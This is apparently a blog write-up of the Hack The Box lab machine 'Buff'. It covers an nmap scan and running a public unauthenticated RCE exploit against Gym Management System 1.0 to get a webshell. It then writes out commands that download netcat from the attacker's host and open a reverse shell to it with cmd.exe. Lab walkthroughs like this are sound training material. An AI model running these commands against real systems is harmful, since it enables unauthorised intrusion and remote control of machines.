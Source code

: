 ```yaml
---
layout: single
title: "Hack The Box Write-up #6 : Buff"
excerpt: "Writeup for Buff, a windows machine provided by HacktheBox."
date: 2020-11-22
toc: true
toc_sticky: true
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  actions:
    - label: "Learn More"
      url: "https://www.hackthebox.eu/home/machines/profile/263"
  teaser: /assets/images/buff-writeup/buff.png
  teaser_home_page: true
  
categories:
  - hackthebox
tags:  
  - windows
  - cve
  - rce
  - buffer-overflow
  - CloudMe
---
```



## Summary
Buff is an easy Windows machine provided by egotisticalSW on hackthebox. We are provided with a vulnerable **Gym Management System** for the initial Foothold where we use a RCE vulnerability to gain a low-privileged shell. For root We exploit a target (**CloudMe**) which is vulnerable to Buffer Overflow.

## Enumeration
Using our very first usual information , which is the machine's IP , we begin to enumerate with a **nmap** scan

### nmap

```sh
root@kali:~# nmap -sC -sV -T4 10.10.10.198
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-22 15:46 CET
Nmap scan report for 10.10.10.198
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```
Only one port open , **8080** which appears to be a WebServer holding the title : **mrb3n's Bro Hut**.

### Webpage

The webpage represents somewhat of a fitness page with a login option.

![webpage](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/webpage.png)

Clicking on **Contact** button reveals useful information.
The website has been built using **Gym Management Software 1.0** :

![contact](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/contact.png)

While searching the software on **exploitdb** We find a RCE vulnerability ...

![exploitdb](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/exploitdb.png)

I am going to use the 4th exploit which appears to be an **Unauthenticated Remote Code Execution** Vulnerability.

```sh
root@kali:~# searchsploit -m /usr/share/exploitdb/exploits/php/webapps48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/48506.py


root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

I have gained an initial shell which is somewhat unstable and not very helpful for lateral movement so I'm going to upload netcat and grab myself a stable shell.

```sh
root@kali:/usr/share/windows-resources/binaries# python3 -m http.server 80
```
Using python3 **http.server** I can host a copy of netcat.exe which is located on ``/usr/share/windows-binaries/nc.exe`` on any Kali host.

On the remote machine I can use the following commands to download and execute netcat in order to give myself a reverse shell :

```sh
C:\xampp\htdocs\gym\upload> powershell -c "curl.exe http://10.10.14.127/nc.exe -o netcat.exe" 
C:\xampp\htdocs\gym\upload> netcat.exe 10.10.14.127 9001 -e cmd.exe
```

After a while listening , I recieve a reverse shell :

![rev](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/rev.png)
